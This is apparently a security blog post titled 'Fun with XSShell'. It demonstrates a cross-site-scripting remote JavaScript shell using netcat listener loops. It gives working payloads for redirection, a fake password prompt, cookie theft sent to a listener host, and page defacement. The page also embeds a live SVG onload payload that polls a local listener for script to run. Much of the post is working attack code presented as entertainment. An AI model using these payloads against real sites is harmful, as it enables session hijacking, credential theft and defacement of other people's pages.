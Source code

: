 title: 'Fun with XSShell'
publish: True
categories: [application security]

So this is kinda fun. With this page open, copy and paste one of the listener commands from below into a terminal window on your local machine. Then, paste `alert(42)` into the resulting shell and press "Enter". Once you recover from the initial shock of what you just witnessed, play with the following payloads and spend the next hour of life thoroughly enjoying yourself.

<!-- READMORE -->

### Listeners

#### Linux

```
while :; do printf "j$ "; read c; echo $c | nc -lp 8000 >/dev/null; done
```

#### OS X

```
while :; do printf "j$ "; read c; echo $c | nc -l 8000 >/dev/null; done
```

### Example Payloads

#### Redirection

```
window.location = 'http://lanmaster53.com/training/'
```

#### Phishing

```
i=new Image();i.src="http://127.0.0.1:8888/pw/"+prompt("Password:")
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Session Hijacking

```
i=new Image();i.src="http://127.0.0.1:8888/pw/"+document.cookie
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Defacement

```
d=document;e=d.createElement("p");e.innerHTML="lanmaster53 wuz here!";d.body.appendChild(e)
```

### Credits

This is all based on the code shared in the following tweets.

<div class="row">
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Target<br><br>&lt;svg/onload=setInterval(function(){d=document;z=d.createElement(&quot;script&quot;);z.src=&quot;//HOST:PORT&quot;;d.body.appendChild(z)},0)&gt;</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639069519097503744">September 2, 2015</a></blockquote>
</div>
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Attacker<br><br>$ while :; do printf &quot;j$ &quot;; read c; echo <a href="https://twitter.com/search?q=%24c&amp;src=ctag">$c</a> | nc -lp PORT &gt;/dev/null; done</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639073880922030080">September 2, 2015</a></blockquote>
</div>
</div>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

<!-- attack payload -->
<svg/onload=setInterval(function(){d=document;try{d.getElementById("x").remove()}catch(e){};z=d.createElement("script");z.id="x";z.src="http://127.0.0.1:8000";d.body.appendChild(z)},3000)>

Check the source code here ^^^ for the active payload.
